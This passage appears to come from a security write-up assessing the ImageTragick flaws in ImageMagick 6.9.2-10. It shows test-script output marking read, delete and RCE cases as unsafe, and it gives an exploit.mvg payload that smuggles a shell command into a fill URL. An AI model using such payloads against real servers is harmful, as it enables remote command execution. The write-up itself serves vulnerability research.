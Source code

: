 
Yields a `ls -la` listing of the current directory. Not good.


Further examining the `6.9.2-10` build of ImageMagick using `test.sh`, the ImageMagick vulnerability litmus test script (see *Appendix A*):

    root@kali:~/git/PoCs# ./test.sh 
    testing read
    UNSAFE
    
    testing delete
    UNSAFE
    
    testing http with local port: 39426
    SAFE
    
    testing http with nonce: 989236bb
    SAFE
    
    testing rce1
    UNSAFE
    
    testing rce2
    UNSAFE
    
    testing MSL
    UNSAFE

As seen from the output, a number of vulnerabilities are exploitable.




## Exploitability assessment --- local shells

Using specifically compiled version `6.9.2-10` of ImageMagick, pre the exposure of the *ImageTragick* vulnerabilities in mid 2016.

    root@kali:~/Downloads/ImageMagick-6.9.2-10# ./utilities/convert --version
    Version: ImageMagick 6.9.2-10 Q16 x86_64 2019-09-28 http://www.imagemagick.org
    Copyright: Copyright (C) 1999-2016 ImageMagick Studio LLC
    License: http://www.imagemagick.org/script/license.php
    Features: Cipher DPC OpenMP 
    Delegates (built-in): x 

Using same payload as used earlier in this write up. Take note of the embedded `ls -la` shell command appended with an `|` (the logical OR pipe operator).

**exploit.mvg**:

    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://127.0.0.0/spl017.jpg"|ls "-la)'
    pop graphic-context

Note that an `mvg` file is used for Magick Vector Graphics.

> The Magick Vector Graphics (MVG) specification is a modularized language for describing two-dimensional vector and mixed vector/raster graphics in ImageMagick. You can use the language to draw from the command line, from an MVG file, from an SVG -- Scalable Vector Graphics file or from one of the ImageMagick program interfaces.
